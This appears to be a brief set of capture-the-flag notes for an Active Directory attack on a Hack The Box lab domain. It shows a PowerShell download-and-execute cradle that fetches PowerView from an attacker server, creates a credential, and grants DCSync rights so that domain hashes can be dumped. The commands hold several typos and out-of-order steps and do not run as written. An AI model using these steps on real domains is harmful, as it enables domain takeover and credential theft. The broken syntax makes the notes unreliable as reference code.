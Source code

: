get Powerview over to evil-winrm
```
IEX(New-obeject Net.Webclient).downloadString('http://kalipythonserver/PowerView.ps1)
```
Create user
```
$cred = New-Object System.Management.Automation.PSCredential()'ippsec', $pass)
```
create password
```
$pass = ConverTo-SecureString 'password' -AsPlaintText -force
```
Run powerview ps1 script
```
Add-DomainObjectACL -Credential $cred -TargetIdentity "DC=htb,Dc=local" -PrincipalIdentity user(created or owned) -Rights DCSync
```

